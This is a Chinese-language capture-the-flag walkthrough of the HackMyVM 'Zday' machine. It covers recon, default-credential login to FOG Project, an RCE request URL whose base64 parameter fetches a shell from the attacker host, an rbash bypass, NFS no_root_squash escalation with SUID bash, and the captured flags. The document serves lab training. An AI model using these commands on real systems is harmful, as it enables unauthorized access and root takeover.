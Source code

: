 ```yaml
---
{"created":"2024-12-19T16:55:10.586+08:00","tags":["HMV","rbash绕过","no_root_squash","静态编译","fogproject"],"Type":"wp","dg-publish":true,"难度":"⭐️⭐️⭐️⭐️⭐️","作者":"sml","aliases":null,"系统":"Linux","permalink":"/24-渗透/HMV/41.Zday/","dgPassFrontmatter":true,"noteIcon":"2"}
---
```


## 1. 基本信息^toc

- [[24-渗透/HMV/41.Zday#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/41.Zday#2. 信息收集\|2. 信息收集]]
	- [[24-渗透/HMV/41.Zday#2.1. 端口扫描\|2.1. 端口扫描]]
	- [[24-渗透/HMV/41.Zday#2.2. 目录扫描\|2.2. 目录扫描]]
- [[24-渗透/HMV/41.Zday#3. fog project Rce\|3. fog project Rce]]
	- [[24-渗透/HMV/41.Zday#3.1. ssh绕过限制\|3.1. ssh绕过限制]]
- [[24-渗透/HMV/41.Zday#4. NFS no_root_squash\|4. NFS no_root_squash]]
- [[24-渗透/HMV/41.Zday#5. bash运行不了怎么办\|5. bash运行不了怎么办]]
**靶机链接** https://hackmyvm.eu/machines/machine.php?vm=Zday
**作者** sml
**难度** ⭐️⭐️⭐️⭐️⭐️
## 2. 信息收集
### 2.1. 端口扫描
```bash

┌──(root㉿kali)-[~/Desktop/hmv/Zday]
└─# nmap 192.168.56.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-19 19:53 EST
Nmap scan report for 192.168.56.7
Host is up (0.00029s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
2049/tcp open  nfs
3306/tcp open  mysql
MAC Address: 08:00:27:36:9F:B5 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds

```

首页是 `appache`

### 2.2. 目录扫描
```bash
┌──(root㉿kali)-[~/Desktop/hmv/Zday]
└─# dirsearch -u http://192.168.56.7
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /root/Desktop/hmv/Zday/reports/http_192.168.56.7/_24-12-19_19-55-54.txt

Target: http://192.168.56.7/


[19:56:05] 302 -    0B  - /index.php  ->  /fog/index.php
[19:56:05] 302 -    0B  - /index.php/login/  ->  /fog/index.php
[19:56:10] 403 -  277B  - /server-status
[19:56:10] 403 -  277B  - /server-status/

```

## 3. fog project Rce
发现一个fog project的登录框
![assets/Pasted image 20241219170042.png](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/Pasted%20image%2020241219170042.png)
利用默认账号密码 `fog : password` 登录上去

看一下版本
![assets/Pasted image 20241219170255.png](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/Pasted%20image%2020241219170255.png)

搜索一下相关的漏洞
```bash
┌──(root㉿kali)-[~/Desktop/hmv/Zday]
└─# searchsploit fog
--------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                           |  Path
--------------------------------------------------------------------------------------------------------- ---------------------------------
Fog Creek Software FogBugz 4.0 29 - 'default.asp' Cross-Site Scripting                                   | asp/webapps/27071.txt
FOG Forum 0.8.1 - Multiple Local File Inclusions                                                         | php/webapps/5784.txt
FOGProject 1.5.9 - File Upload RCE (Authenticated)                                                       | php/webapps/49811.txt
--------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

成功找到一个满足版本的 文件上传rce

尝试利用一下


![assets/Pasted image 20241219172007.png](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/Pasted%20image%2020241219172007.png)
参考文章完成利用 https://muzec0318.github.io/posts/articles/fog.html
但是我卡在了这一步
```bash
http://192.168.56.7/fog/management/index.php?node=about&sub=kernel&file=aHR0cDovLzE5Mi4xNjguNTYuNi9teXNoZWxsCg==
&arch=arm64
```
因为它请求不了那个ftp

### 3.1. ssh绕过限制
在网站后台可以获取到一个账户名与密码
![assets/Pasted image 20241219174002.png](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/Pasted%20image%2020241219174002.png)

利用账户密码SSH上去会发现系统会立马中断我的bash
```bash

┌──(root㉿kali)-[~/Desktop/hmv/Zday]
└─# ssh fogproject@192.168.56.7
fogproject@192.168.56.7's password:
Linux zday 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Dec 19 04:08:15 2024 from 192.168.56.6
You seem to be using the 'fogproject' system account to logon and work
on your FOG server system.

It's NOT recommended to use this account! Please create a new
account for administrative tasks.

If you re-run the installer it would reset the 'fog' account
password and therefore lock you out of the system!

Take care,
your FOGproject team
Connection to 192.168.56.7 closed.

```

这里我们利用 `ssh fogproject@192.168.56.7 -t sh` 进行绕过
也是一个属于 [[24-渗透/渗透姿势库/rbash绕过\|rbash绕过]]的方式

```bash

┌──(root㉿kali)-[~/Desktop/hmv/Zday]
└─# ssh fogproject@192.168.56.7 -t sh
fogproject@192.168.56.7's password:
$ whoami
fogproject
$ id
uid=1001(fogproject) gid=1001(fogproject) groups=1001(fogproject)
$
```

## 4. NFS no_root_squash
使用脚本检测出来NFS共享里面启用了 `no_root_squash`
```bash
╔══════════╣ Analyzing NFS Exports Files (limit 70)
Connected NFS Mounts:
nfsd /proc/fs/nfsd nfsd rw,relatime 0 0
-rw-r--r-- 1 root root 174 Mar 10  2021 /etc/exports
/images *(ro,sync,no_wdelay,no_subtree_check,insecure_locks,no_root_squash,insecure,fsid=0)
/images/dev *(rw,async,no_wdelay,no_subtree_check,no_root_squash,insecure,fsid=1)

其中 /images/dev 目录我们具有读写权限
```
参考利用 https://book.hacktricks.xyz/zh/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
![assets/Pasted image 20241219175540.png](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/Pasted%20image%2020241219175540.png)

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
## 5. bash运行不了怎么办
安装hacktrick 上面利用可能会出现bash在靶机上运行不了
报错
```bash
$ ./bash -p
./bash: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33' not found (required by ./bash)
./bash: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.36' not found (required by ./bash)
./bash: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.38' not found (required by ./bash)
./bash: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./bash)

```

这是由于版本不对
我们重新编译一个传过去即可

到 https://ftp.gnu.org/gnu/bash/ 下载一个时间差不多的版本。这里靶机是21年的我就下一个21年的bash
![assets/Pasted image 20241219182432.png](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/Pasted%20image%2020241219182432.png)

```bash
攻击机
tar -zxvf bash-5.1.8.tar.gz
./configure --enable-static-link --without-bash-malloc
make
cp bash /tmp/pe
chmod +s /tmp/pe/bash

受害机
./bash -p
```

```bash
bash-5.1# cat /root/root.txt
ihavebeenherealways

bash-5.1# cat /home/estas/user.txt
whereihavebeen

```